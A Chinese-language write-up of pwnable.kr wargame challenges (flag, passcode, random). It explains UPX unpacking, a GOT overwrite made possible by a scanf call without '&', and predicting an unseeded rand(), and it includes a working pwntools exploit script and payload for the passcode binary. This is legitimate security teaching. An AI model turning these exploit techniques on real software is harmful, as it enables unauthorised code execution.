

#PWN从入门到放弃2
---
[pwnable.kr](http://pwnable.kr/)是一个很适合新手入门的网站。

0x04 
--
题目给出了一个名为flag的文件，下载下来。

发现应该是upx加过壳的，用upx -d脱壳

可以在数据段中直接看到flag

0x05 passcode
--
ssh连上去，查看一下passcode.c的代码。

	#include <stdio.h>
	#include <stdlib.h>

	void login(){
		int passcode1;
		int passcode2;
	
		printf("enter passcode1 : ");
		scanf("%d", passcode1);
		fflush(stdin);
	
		// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
		printf("enter passcode2 : ");
	        scanf("%d", passcode2);
	
		printf("checking...\n");
		if(passcode1==338150 && passcode2==13371337){
	                printf("Login OK!\n");
	                system("/bin/cat flag");
	        }
	        else{
	                printf("Login Failed!\n");
			exit(0);
	        }
	}
	
	void welcome(){
		char name[100];
		printf("enter you name : ");
		scanf("%100s", name);
		printf("Welcome %s!\n", name);
	}
	
	int main(){
		printf("Toddler's Secure Login System 1.0 beta.	\n");
	
		welcome();
		login();
	
		// something after login...
		printf("Now I can safely trust you that you have 	credential :)\n");
		return 0;	
	}
	
可以发现login函数中的`scanf("%d",passcode);`中没有加`&`符，如果scanf没有加取地址符&的话，就会默认从栈中取4个字节当做scanf的地址，我们就可以利用这一点来覆盖GOT表。

将一个GOT表中的函数地址写到栈中，用来充当scanf（）取的地址，然后把system("/bin/cat flag")这条指令的地址写到这个GOT表中的函数。

当这个函数被调用时，就会直接执行system("/bin/cat flag")

可以看到welcome中只读入了100个字符。我们使用`cyclic 100`生成100个字符串。

可以看到login中的scanf将我们输入的最后四个字符当做地址，那么我们就可以将最后四个字节换成GOT表中fflush函数的地址，输入的时候将system函数的地址输入进去，就可以覆盖GOT表，这样在执行fflush函数的时候就会执行system函数。从而得到flag。

使用`objdump -R passcode`或者`readelf -r passcode`查找到fflush函数在GOT表中的地址为0x0804a004。(注意这里需要在ssh服务器上查看GOT表才可以，除非本机和服务器上的系统版本相同)

使用gdb查到system的地址为0x080485e3(mov是将system函数的参数入栈).

exp如下：

	from pwn import *
	pwn_ssh=ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
	print (pwn_ssh.connected())
	sh=pwn_ssh.process(executable="./passcode")
	
	print (sh.recv())
	sh.sendline('A'*96+'\x04\xa0\x04\x08'+'134514147')
	print (sh.recvall())

0x06 random
-
ssh连接，查看源码。

	#include <stdio.h>
	
	int main(){
		unsigned int random;
		random = rand();	// random value!
	
		unsigned int key=0;
		scanf("%d", &key);
	
		if( (key ^ random) == 0xdeadbeef ){
			printf("Good!\n");
			system("/bin/cat flag");
			return 0;
		}
	
		printf("Wrong, maybe you should try 2^32 cases.\n");
		return 0;
	}

rand函数想要实现真正的随机数，必须有一个随机种子，如果没有将种子作为rand函数的参数的话，rand函数产生的并不是真正的随机数，而是伪随机数。

是伪随机数的话，那么就可以通过调试来确定rand第一次产生的数是什么，然后与0xdeadbeef异或，就可以得到我们需要输入的值。

rand第一次产生的数为0x6b8b4567,和0xdeadbeef得到0xB526FB88

